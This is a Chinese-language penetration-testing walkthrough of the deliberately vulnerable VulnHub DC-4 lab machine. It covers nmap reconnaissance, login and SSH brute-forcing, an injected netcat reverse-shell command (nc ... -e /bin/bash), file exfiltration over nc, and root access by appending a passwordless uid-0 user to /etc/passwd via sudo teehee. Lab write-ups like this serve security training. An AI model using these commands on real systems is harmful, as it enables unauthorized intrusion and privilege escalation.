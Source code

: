 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC4-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-26
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false
typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-4,313/>

**DESCRIPTION**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

只有一个flag

## 0x02 信息收集

靶机使用vmware部署，NAT模式

nmap扫描网段

```
nmap -sP 192.168.190.0/24
```

![image-20210926153642099](/assets/img/image-20210926153642099.png)

发现靶机IP：192.168.190.139，继续扫描

```
nmap -T5 -A -v -p- 192.168.190.139
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 14:27 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating ARP Ping Scan at 14:27
Scanning 192.168.190.139 [1 port]
Completed ARP Ping Scan at 14:27, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:27
Completed Parallel DNS resolution of 1 host. at 14:27, 0.00s elapsed
Initiating SYN Stealth Scan at 14:27
Scanning 192.168.190.139 [65535 ports]
Discovered open port 80/tcp on 192.168.190.139
Discovered open port 22/tcp on 192.168.190.139
Completed SYN Stealth Scan at 14:27, 1.00s elapsed (65535 total ports)
Initiating Service scan at 14:27
Scanning 2 services on 192.168.190.139
Completed Service scan at 14:27, 6.02s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.190.139
NSE: Script scanning 192.168.190.139.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.11s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Nmap scan report for 192.168.190.139
Host is up (0.00045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:B3:F5:3B (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.838 days (since Thu Mar 11 18:21:01 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms 192.168.190.139

NSE: Script Post-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，登陆后只有一个登录界面，未发现其他公开的CMS或组件

![image-20210926153952656](/assets/img/image-20210926153952656.png)

## 0x03 渗透

尝试使用burpsuite进行web爆破，根据系统名包含admin，指定用户名admin，先爆破密码

![image-20210926154453036](/assets/img/image-20210926154453036.png)

爆破发现admin密码happy

使用admin登录后，发现web提供了执行命令的功能，需要执行的命令通过post参数传递

![image-20210926154602455](/assets/img/image-20210926154602455.png)

使用nc回弹shell，kali执行

```
nc -lvp 4444 
```

使用hackbar发送post参数`radio=nc 192.168.190.129 4444 -e /bin/bash&submit=Run`，获得反弹shell

![image-20210926154739554](/assets/img/image-20210926154739554.png)

执行命令获取方便观察的shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x04 提权

查看/etc/passwd，发现几个用户，去home下查看，只有jim下存在文件，backups下有一个old-passwds.bak文件，mbox文件无权限，test.sh没什么用处

使用nc获取old-passwds.bak文件

```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

然后使用old-passwords.bak文件对jim进行爆破

```
hydra -l jim -P old-passwords.bak -vV 192.168.190.139 ssh
```

爆破成功得到密码：

![image-20210926160224587](/assets/img/image-20210926160224587.png)

登录jim后发现mbox下内容：

![image-20210926160501768](/assets/img/image-20210926160501768.png)

似乎是一个邮件，在/var/mail/jim中发现邮件内容：

![image-20210926160535935](/assets/img/image-20210926160535935.png)

得到charles密码

登录charles，执行`sudo -l`发现charly可以执行teehee，可以将标准输入复制到我们选择的文件中

创建一个拥有root权限的账号

```bash
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
su test
whoami
```

在/root/下找到flag

![image-20210926160832848](/assets/img/image-20210926160832848.png)



